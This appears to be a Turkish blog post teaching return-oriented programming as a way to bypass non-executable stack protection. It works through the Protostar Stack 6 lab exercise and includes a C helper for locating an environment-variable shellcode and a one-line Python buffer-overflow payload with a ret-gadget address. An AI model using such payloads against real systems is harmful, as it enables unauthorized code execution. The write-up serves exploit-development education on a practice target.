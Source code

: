 ```yaml
---
layout: post
title:  "Return-oriented programming (ROP)"
author: "Alp Eren Işık"
date:   2020-02-20
categories: [exploit-development, binary-exploitation]
permalink: /:year/:month/:day/:title:output_ext
---
```


# `Non-executable (NX) Stack Nedir ?`  

Yazılımcılar `buffer overflow` saldırılarında programın veri alanı veya stack içerisinde kod çalıştırılmasından usanmış olacaklar ki buna bir hal çare bulmaya karar vermişler ve `non-executable (NX)` isimli birşey çıkmış ortaya. Kısaca bahsetmek gerekirse programımızdaki veri alanı veya stack vs. kısımlarının çalıştırılamaz olarak işaretlenmesine yarıyor.

Tabi bu önlem heykır abilerimizi/ablalarımızı durdurmaya yetmemiş ve bu koruma yöntemini atlatmak için ortaya meşhur 2 teknik çıkmış. `ret2libc (Return-to-libc)` ve `ROP (Return-oriented programming)`. Bu yazıda sizlere dilim döndüğünce `ROP` tekniğini anlatmaya çalışacağım. Diğer yöntemi merak edenler için [Protostar Stack 6](https://github.com/isikerenalp/exploit-education-writeups/blob/master/Protostar/Stack6.md) ve [Protostar Stack 7](https://github.com/isikerenalp/exploit-education-writeups/blob/master/Protostar/Stack7.md) sorularının `ret2libc` saldırısı ile nasıl çözüldüğünü anlattım.

`NOT`: Bu koruma `no-execute` / `never execute` şeklinde adlandırılmakla beraber `Intel` buna `execute disable (XD)` , `ARM` ise `execute never (XN)` ve `Microsoft` da `data execution prevention (DEP)` şeklinde adlandırmalar yapmıştır.

`NOT-2`: Bir programda `NX` koruması olup olmadığını görmek için aşağıdaki komutu kullanabilirsiniz.

    objdump -x program_adi | grep STACK -A 1

NX koruması yok

![nx_yok](/static/img/posts/ROP/nx_yok.png)

NX koruması var

![nx_var](/static/img/posts/ROP/nx_var.png)

# `ROP Nedir ?`

Adından da anlaşıldığı üzere dönüş odaklı programlama anlamına gelmektedir ve NX gibi korumaları atlamak için kullanılan modern bir sömürü tekniğidir.

`ret2libc` tekniğinde programın içinde mevcut olan libc sayesinde shell almıştık  (sanırım `ROP` tekniğinde de `system` adresini bulup shell yürütebiliyoruz veya program içerisinde kullanılmayan bir fonksiyonun adresini bularak çalıştırabiliyoruz). Ancak bazı durumlarda yazılımcılar `libc` kullanımını kısıtladıklarında kullanabileceğimiz en iyi tekniklerden birisi ROP tekniğidir diyebiliriz.

ROP tekniğinde asıl olay `gadget` yani talimatlarda. Bu ufak `gadget`'ları birbirine zincirleyerek hedefe ulaşılmaya çalışılır. (talimatlar genellikle `ret` komutuyla biterler.) Tabi bunun içinde programın mevcut talimatlarının detaylı incelenmesi gerekmektedir. Bununla ilgili [canyoupwn.me](https://canyoupwn.me)'nin youtube kanalında güzel bir anlatım mevcut. [VIDEO](https://youtu.be/HMlFVsSLko8)

Peki neden `ret` komutu ? Bir işlev çağrıldığında stack içerisine bir dönüş adresi yerleştirilir, böylece fonksiyon geri döndüğünde dönüş adresi stackten çıkarılır ve EIP'ye yazılır. Bununla ilgili de liveoverflow kanalında güzel bir anlatım mevcut. [VIDEO](https://youtu.be/zaQVNM3or7k)

    Ret talimatlarının sıralamsı kısaca şöyle

    1-) Stack Pointer adresine bak
    2-) Bu adrese git
    3-) Adresin gösterdiği değeri al (işaret ettiği adresi)
    4-) Bu değeri Instruction Pointer a yaz ve stack pointer adresini/değerini arttır

Sanırım az-biraz temelini anlatabildim. Şimdi çok ufak bir örnek ile (gadget'lar içerisinde boğulmayacak şekilde) nasıl uygulandığına bakalım. İlerleyen zamanlarda belki bol `gadget` içeren bir örnek ekleyebilirim veya ayrı bir yazı yazabilirim :)

Bunun için gene Protostar Stack 6 sorusu üzerinden anlatacağım. Stack 7 sorusu da aynı mantıkda çözülebiliyor.

Yapacağımız şey kısaca `ret` gadget adresini yazdıktan sonra shellcode'umuzun adresini kullanarak EIP'nin üzerine yazmak olacak.

Öncelikle ret kullanabileceğimiz/kullanılmış bir adres bulalım.

![0](/static/img/posts/ROP/0.png)

Adresler geldiğine göre bir de ortam değişkeni olarak bir [shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php) ekleyelim.

![1](/static/img/posts/ROP/1.png)

Şimdi de bu shellcode'un adresine bir bakalım. Bunun için ufak bir `C` kodu kullanacağız.

    #include <stdio.h>
    #include <stdlib.h>

    int main(int argc, char* argv[]) {
        printf("%p\n", getenv(argv[1]));
        return 0;
    }

`C` kodumuza argüman olarak SHELLCODE ortam değişkeninin ismini verip adresi öğrenebiliriz. Daha sonra exploitimizi hazırlayıp çalıştırabiliriz.

    (python -c "print 'A'*80 + '\x5f\x83\x04\x08' + '\x9f\xf8\xff\xbf'"; cat) | ./stack6

**

![2](/static/img/posts/ROP/2.png)

Ve exploitimizi başarılı bir şekilde çalıştırdık

`Son Not `: ret adresinden sonra C kodumuzun bize söylediği SHELLCODE adresini yazıyoruz. Yukarıdaki ekran görüntüsünde bir önceki bulduğum shellcode adresim kalmış :/

